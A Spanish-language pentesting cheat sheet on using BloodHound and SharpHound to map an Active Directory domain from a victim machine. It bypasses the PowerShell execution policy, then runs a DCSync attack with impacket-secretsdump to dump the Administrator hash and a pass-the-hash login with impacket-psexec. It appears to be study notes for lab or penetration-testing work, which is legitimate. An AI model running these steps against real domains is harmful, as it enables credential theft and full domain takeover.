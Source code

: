 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 
```

```bash 
# En la maquina victima con PS. Hacemos lo siguiente para la recoleccion de data

❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

# Enumeracion 
❯ . .\SharpHound.ps1                         # Importamos el modulo 
❯ Import-Module .\SharpHound.ps1             # Otra forma de importar el modulo  

❯ Invoke-Bloodhound -CollectionMethod All    # Utilizamnos la funcion 'Invioke' para crear el archivo  '2024_bloodhound.zip' el cual usaremos en el GUI de la herramienta de Boolhound
```

## BloodHound en Kali 

```bash 
# Abrirmos la herramienta de Boodhound y cargamos el archivo '2024_bloodhound.zip'

❯ apt install neo4j bloodhound          # Instalar la herramienta en Kali 
❯ update-alternatives --config java     # Ver las versiones de Java y cual se esta utilizando (Se debe usar la version 11)

❯ neo4j console &> /dev/null & disown   # Iniciamos el servicio en el puerto local 7474 y lo independizamos
	# Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'

❯ bloodhound &> /dev/null & disown      # Abrimos el 'Bloodhound' para usar el GUI y cargar el archivo .ZIP
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```
